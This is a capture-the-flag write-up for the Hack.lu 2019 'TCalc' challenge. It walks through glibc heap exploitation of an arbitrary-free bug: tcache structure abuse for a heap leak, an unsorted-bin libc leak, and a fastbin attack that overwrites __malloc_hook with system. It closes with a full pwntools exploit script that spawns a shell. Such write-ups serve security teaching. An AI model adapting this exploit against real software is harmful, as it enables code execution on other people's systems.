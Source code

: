 ```yaml
---
title: TCalc - Hack.lu CTF 2019
date: 2019-10-26 13:00:00
categories:
  - Pwn 
  - linux
  - heap
tags:
  - CTF
  - writeup
  - Pwn
---
```


Linux heap exploitation of an arbitary free vulnerability
<!-- excerpt -->
**Challenge points**: 381
**No. of solves**: 16

This was a fun challenge. It is a menu driven program where you can store a set of numbers and also retreive the average of the numbers.
The challenges runs in an environment with glibc 2.30, It has tcache double free mitigation, as explained in my last [blog](https://blog.bi0s.in/2019/10/20/Pwn/remain/).

```sh
$ ./chall
------------------
What do?
1) get numbers
2) print_average
3) delete_numbers
>
```

get numbers
+ store maximum of 10 set of numbers on a heap chunk, no restriction to the count of numbers in one set
+ calloc(count + 1, 8uLL) is called to allocate memory for the numbers, The first 8 bytes is used to store the count
+ calloc() nulls out the memory region. Also, calloc doesn't allocate from tcache

print_average
+ gets index from user and prints average of the numbers at that index
+ index is not validated, leading to potential information leaks

delete_numbers
+ free() the pointer holding a set of numbers at a particular index and pointer is nulled out.
+ index is not validated, giving us aribiary free

The table, holding all the pointers to the set of numbers, is on the heap. The allocations made to store the numbers are right below the table.

Using the `out of bound indexing` we can free any chunk on the heap. As of now we do not have a heap leak to perform arbitary free. Let's first get the heap leak

#### How to get a heap leak?
To leak information using the `out of bounds` bug we invoke `print_average` but for this there needs be a proper structure to the heap chunk. The 1st 8 bytes should be the count of the numbers, followed by the numbers themselves, the count is used to add up the numbers in a for loop, if count is too large then the program will segfault accessing invalid memory. We need to craft a chunk such that the 1st 8 bytes contain the count, it should be a reasonably low value and next few blocks should contain the information we want to leak.
To achieve this layout, I first freed a chunk in the tcache range, when you free a chunk in tcache range the a key is set to tcache structure's address. 

```text
This is what the chunk looks like after free
	0x55555555a300: 0x0000000000000000  0x0000000000000061
	0x55555555a310: 0x0000000000000000  0x0000555555559010   # tcache structure
	0x55555555a320: 0x0000000000000002  0x0000000000000003
	0x55555555a330: 0x0000000000000004  0x0000000000000005
	0x55555555a340: 0x0000000000000006  0x0000000000000007
	0x55555555a350: 0x0000000000000008  0x0000000000000009
tcache structure
	0x555555559000: 0x0000000000000000  0x0000000000000291
	0x555555559010: 0x0000000000000000  0x0000000000000001
	0x555555559020: 0x0000000000000000  0x0000000000000000
	0x555555559030: 0x0000000000000000  0x0000000000000000
	0x555555559040: 0x0000000000000000  0x0000000000000000
	0x555555559050: 0x0000000000000000  0x0000000000000000
```

As you can see there is a pointer to the tcache structure on the heap, plus this is a valid pointer for free
Now I freed this pointer with the `out of bounds` indexing. Let's see what the tcache structure looks like now

```text
	0x555555559000: 0x0000000000000000  0x0000000000000291
	0x555555559010: 0x0000000000000000  0x0000555555559010
	0x555555559020: 0x0000000000000000  0x0000000000000000
	0x555555559030: 0x0000000000000000  0x0000000000000000
	0x555555559040: 0x0000000000000000  0x0000000000000000
```

Now I allocate and free a chunk of size 0x20, This sets the tcache count of 0x20 bin to 1.

```text
	0x555555559000: 0x0000000000000000  0x0000000000000291
	0x555555559010: 0x0000000000000001  0x0000555555559010
	0x555555559020: 0x0000000000000000  0x0000000000000000
	0x555555559030: 0x0000000000000000  0x0000000000000000
```
Now the tcache structure resembles the structure used to store the set of numbers. The first 8 bytes is the count, which is 1, and the next 8 bytes conatin a heap address. Invoke the `print_average` function on the tcache structure.
Now that we have the heap leak we can forge chunks on the heap and free arbitary chunks. 

#### Libc leak
Getting a libc leak is quite simple
+ free a 0x440 (or any size greater than tcache range) chunk so that it gets inserted to the unsorted bin, as you know, the fd and bk are libc addresses
+ allocate a large chunk of size less than 0x440 so the 0x440 chunk is split and the rest is put back in the unsorted bin
+ we split the chunk so that the size of the chunk is small and can we are going to use it as the faked count of numbers
+ write heap address of the structure such that the size of the heap chunk is the count of numbers and invoke `print_average` on it.
+ The average of all the data is print out. Extract the libc address by simply reversing the calculations.

#### Exploitation
We need arbitary write to get code execution, so we need calloc to allocate a chunk of our choice. Since calloc doesn't allocate chunks off the tcache bins, there is no point in corrupting the fd of tcache chunks. Chunks get allocated from the fastbin though, we can overwrite the next pointer of a free pointer to get arbitary write, our target is restricted to `__malloc_hook` as we can easily forge a size(0x7f), but this is not a an issue. (We cannot carry out a traditional fastbin double free corruption as we do not control the fd directly as it is used for count)

We will have to work with 0x70 chunks to carry out the fastbin attacks. We had already overwritten the tcache count for 0x70 chunk with value much greater than 7 when tcache structure was freed. Further freed chunks will be put in fastbin.

To do the fastbin attack:
+ allocate a chunk and create a fake chunk of size 0x71 ( choose any size that will be freed into the fastbin and can be allocated back with calloc() ).
+ This fake chunk will be freed and allocated back as an overlapping chunk to overwrite the next pointer of an free fastbin chunk lying right below
+ allocate the target chunk of 0x71 size
+ free the target chunk
+ free the fake chunk by using arbitary free
+ allocate a chunk of 0x70 size, the fake chunk will be returned, now overwrite the fd of the target chunk with address of the misalligned chunk above `__malloc_hook` such that the size field is 0x7f. 
+ allocate the target chunk
+ The next allocation will give you write to `__malloc_hook`

Overwrite `__malloc_hook` with system and call `malloc` with heap address pointing to `"/bin/sh"` ( `get_numbers` should be given addr/8 as `calloc` calls `malloc` with arguments as arg1*arg2 ).
You got shell :)

```python
from pwn import *
#s=process("./calc",env={'LD_PRELOAD': './libc.so.6'})
s=remote("tcalc.forfuture.fluxfingers.net", 1337)
libc=ELF("./libc.so.6")
def add(num, x):
    s.sendlineafter(">", str(1))
    s.sendlineafter(">", str(num))
    for i in x:
        s.sendline(str(i))
def show(idx):
    s.sendlineafter(">", str(2))
    s.sendlineafter(">", str(idx))
def free(idx):
    s.sendlineafter(">", str(3))
    s.sendlineafter(">", str(idx))
# free a chunk and free the tcache struct
add(10,[1,2,3,4,5,6,7,8,9,10])
free(0)
free(0x20f)
# set count of tcache 0x20 bin to 1 so as to have a crafted set of numbers with cnt=1
add(1,[1])
free(0)
# Heap leak
show(0x21b)
s.recvuntil("The average is: ")
heap = int(s.recvuntil(".")[:-1])-0x10
log.info("Heap leak = " + hex(heap))
# get libc leak
add(0x430/8,[-1])
add(1,[heap+0x1698])
free(0)
add(0x300/8,[-1])
show(0x2a7)
s.recvuntil("The average is: ")
base = int(s.recvuntil(".")[:-1])
base = ((base*0x131)-0x000000000001f821-(heap+0x1698)-0x0000000000000001-0x0000000000000020-0x0000000000000130)/2
base = (base & 0xfffffffffffff000)-0x1c0000
log.info("libc leak = " + hex(base))
system = base + libc.symbols['system']
malloc_hook = base + libc.symbols['__malloc_hook']
malloc_fake = base + 0x1c09ad
shell = base + 0x18b1ac
free(0)
free(1)
print hex(system)
what = system
part1 = (what&0x000000ffffffffff)<<24
part2 = (what&0x0000ff0000000000)>>40
print hex(part1)
print hex(part2)
add(12,[1,2,3,4,5,6,7,8,9,10,113,114])
add(12,[1,2,3,4,5,6,7,8,9,10,0x31,114])
add(2,{1, heap+0x1700})
free(1)
free(0x29d)
add(12,[0x71,malloc_fake,-1])
add(12,[0x0068732f6e69622f,0x0068732f6e69622f,-1]) 
"""
the write is not aligned so system is written as two parts 
part1 is the last 5 bytes and part2 is the 6th last byte which is 0x7f
part1 is left shifted by 24 bits, so the number we give starts with the 5th last byte
if the 5th last byte is greater than 0x7f the write get corrupted
"""
add(12,[1,part1,part2,0x3333333333333333,0x4444444444444444,0x5555555555555555,-1])
# pass heap address of "/bin/sh" to malloc as argument to system when __malloc_hook is triggered
add(((heap+0x1718)/8),[-1])
s.interactive()
```
